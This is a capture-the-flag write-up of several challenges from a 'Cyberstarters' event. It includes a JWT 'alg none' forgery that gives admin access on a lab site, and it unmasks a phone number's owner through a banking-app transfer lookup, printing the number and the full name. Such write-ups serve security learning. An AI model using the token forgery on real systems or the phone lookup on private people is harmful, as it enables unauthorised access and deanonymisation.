 # Cyberstarters-Ctf

# SANITY CHECK

# Discord
![Discord](https://user-images.githubusercontent.com/51336409/235458307-32f46d31-36a5-4068-a210-8b316ddc8af0.png)

So, for this part I just followed the link the Discord cahnnel and i got this base64 string *RG9IQ1RGe3RyeV90b19iZV9oYWNrdGl2ZV9vbl9kaXNjb3JkX2hlaGVoZWhlaGVoZX0K*

So running this command *echo 'RG9IQ1RGe3RyeV90b19iZV9oYWNrdGl2ZV9vbl9kaXNjb3JkX2hlaGVoZWhlaGVoZX0K' | base64 -d*. I was able to get the flag "DoHCTF{try_to_be_hacktive_on_discord_hehehehehehe}"

# DoHCTF{_colwSPs:(}
![Screenshot_2023-05-01_09_34_23](https://user-images.githubusercontent.com/51336409/235458940-391c7304-14d7-43c1-af8b-55122c535f48.png)

This is really easy and quick, the flag has already been given, which is the name of the challenge, so the flag is "DoHCTF{_colwSPs:(}"

# Twitter
![Screenshot_2023-05-01_09_18_46](https://user-images.githubusercontent.com/51336409/235459330-7e656a38-ef32-4373-9785-cc8ff56b8bc2.png)

The flag for this is just Simply "Yes"


# WEB

# None Shall Pass
![Screenshot_2023-05-01_09_44_05](https://user-images.githubusercontent.com/51336409/235460203-60fe4967-5259-42e8-a99a-9623a3352d11.png)

Following the link *https://diaryofhackers-jwtvuln.chals.io/ink* We got to the website

Going to the websites cookie![Screenshot_2023-05-01_09_45_45](https://user-images.githubusercontent.com/51336409/235460434-ff29a3f1-f9a9-4a37-a315-1129cc5ce610.png)

I got this jwt Token *eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.iJ9U4tIUxxLbbOb_YXVkpvkBqtPsFtAxWIvmcakDfL0*

The token has three part(taking note of the dots) and they are all in Base64, but we are concerned with the first two which are:

# Base64                                                     # Decoded
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9                          {"alg":"HS256","typ":"JWT"}
eyJ1c2VybmFtZSI6Imd1ZXN0In0                                    {"username":"guest"}

So what we are going to do now is that we are going to do some changes which will look like this:

{"alg":"none","typ":"JWT"}
{"username":"admin"}

Now we base64 encode them back:
"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0="
"eyJ1c2VybmFtZSI6ImFkbWluIn0="

Now that we have new enocded strings we join them together with dots, and we also remember the third part of the original token.
So the new token will looklike this:

"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=.iJ9U4tIUxxLbbOb_YXVkpvkBqtPsFtAxWIvmcakDfL0"

Replace it with the original token in the using the devtools. Then you get your flag
![Screenshot_2023-05-01_10_02_57](https://user-images.githubusercontent.com/51336409/235463374-0c1b9e21-3f9f-4a87-ba9a-d969be8c8e8c.png)
"DoHCTF{jwt_has_a_none_algo_loll}"


# OSINT

# Rogue Agent 
![Screenshot_2023-05-01_10_08_31](https://user-images.githubusercontent.com/51336409/235464165-06cb06cf-b1ab-4f88-b9de-50b1e73475c9.png)
 
 For this challenge we were provided with a phone number "+2348109439442". We are asked to find someone on LinkedIn whose third name is "Mustapha".
 After trying several Osint tools on the phone(i even tried using True caller) it did not yield anything. So i open my bank app and did as if i wanted to transfer some money to the phone number(Bank to PalmPay). Then i go the person's Which is "Adebayo Ekeh Mustapha". Then i went to LinkedIn to search for the name

![Screenshot_2023-05-01_10_16_06](https://user-images.githubusercontent.com/51336409/235466416-27a0ce5e-f536-4109-b522-0d330d80f352.png)

I got this Base64 from the profile "RG9IQ1RGe3RoYXRfd2FzX2Vhc3lfcmlnaHQ/X3JpZ2h0P30K" decoding it we got the flag "DoHCTF{that_was_easy_right?_right?}"
 

# STEG


# OK
![Screenshot_2023-05-01_12_07_28](https://user-images.githubusercontent.com/51336409/235485034-a2191c64-f13c-4dfc-b7af-6f2576d4edd6.png)

After downloading the file,i open it and notice it had some extra space in it. Search for what type of steg file it so i found out it is a snow steganography so i used this command to solve it "stegsnow -C 0cold_flag.txt" and i got the flag "DoHCTF{another_quite_simple_one}"

